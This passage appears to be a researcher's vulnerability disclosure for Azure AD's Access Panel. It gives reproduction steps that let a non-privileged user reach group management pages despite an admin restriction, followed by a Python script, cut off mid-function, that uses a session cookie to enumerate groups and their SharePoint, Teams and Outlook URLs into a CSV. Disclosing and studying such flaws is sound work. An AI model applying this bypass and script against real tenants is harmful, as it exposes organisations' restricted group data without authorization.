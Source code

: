 ***

### The issue
#### POC
To reproduce the issue :
1. As an administrator, set the <b>Restrict user ability to access groups features in the Access Panel</b> setting on <b>Yes</b>
2. Authenticate as a non-privileged user
3. Get a group GUID
4. Access the following URL : 
```
https://account.activedirectory.windowsazure.com/r#/manageMembership?objectType=Group&objectId=<GUID>
```

<div class="col-sm mt-3 mt-md-0">
  <iframe width="560" height="315" src="https://www.youtube.com/embed/NgG_SMecn9k" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
</div>


#### Automation
Here is a probably not optimized piece of code that takes a cookie as input, and generates a CSV with all group resources URLs.
{% highlight python %}
import subprocess
import sys
import csv
import requests
import json

# Used to invoke Azure CLI commands
def run(cmd):
    completed = subprocess.run(["powershell", "-Command", cmd], capture_output=True)
    return completed

# Used to export findings into CSV
def write_header():
    s = 'Id,DisplayName,JoinPolicy,SharePointUrl,TeamsUrl,OutlookUrl,YammerUrl\n'
    with open('results.csv', 'a') as result_file:
        result_file.write(s)
# Used to write line into CSV
def write_line(data):
    json_data = json.loads(data)
    print(json_data)
    s = str(json_data['Id']) + ',' + str(json_data['DisplayName']) + ',' + str(json_data['JoinPolicy']) + ',' + str(json_data['SharePointUrl']) + ',' + str(json_data['TeamsUrl']) + ',' + str(json_data['OutlookUrl']) + ',' + str(json_data['YammerUrl']) + '\n'
    
    with open('results.csv', 'a') as result_file:
        result_file.write(s)

# Used to fecth and parse data
def retrieve_data(cookie, guid):
    url_base = "https://account.activedirectory.windowsazure.com"
    url_path = "/group/DetailsData/"
